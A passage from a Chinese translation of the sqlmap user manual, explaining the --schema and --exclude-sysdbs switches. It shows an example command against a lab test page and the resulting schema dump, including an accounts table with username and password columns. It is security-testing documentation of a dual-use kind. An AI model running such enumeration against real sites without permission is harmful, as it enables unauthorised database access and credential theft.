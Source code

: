 注意，对于 PostgreSQL，你需要提供 `public` 或系统数据库的名称。这是因为不可能枚举其他数据库表，只能枚举出 Web 应用程序用户连接到的数据库模式下的表，它们总是以 `public` 为别名。

### 枚举 DBMS 模式

开关：`--schema` 和 `--exclude-sysdbs`

用户可以使用此开关获取 DBMS 模式。模式列表将包含所有数据库、表和列以及它们各自的类型。结合 `--exclude-sysdbs`，只有包含非系统数据库的模式才会被获取并显示出来。

针对 MySQL 目标的示例：

```
$ python sqlmap.py -u "http://192.168.48.130/sqlmap/mysql/get_int.php?id=1" --s\
chema--batch --exclude-sysdbs

[...]
Database: owasp10
Table: accounts
[4 columns]
+-------------+---------+
| Column      | Type    |
+-------------+---------+
| cid         | int(11) |
| mysignature | text    |
| password    | text    |
| username    | text    |
+-------------+---------+

Database: owasp10
Table: blogs_table
[4 columns]
+--------------+----------+
| Column       | Type     |
+--------------+----------+
| date         | datetime |
| blogger_name | text     |
| cid          | int(11)  |
| comment      | text     |
+--------------+----------+

Database: owasp10
Table: hitlog
[6 columns]
+----------+----------+
| Column   | Type     |
+----------+----------+
| date     | datetime |
| browser  | text     |
| cid      | int(11)  |
| hostname | text     |
| ip       | text     |
| referer  | text     |
+----------+----------+

Database: testdb
Table: users
[3 columns]
+---------+---------------+
| Column  | Type          |
+---------+---------------+
| id      | int(11)       |
| name    | varchar(500)  |
| surname | varchar(1000) |
+---------+---------------+
[...]
```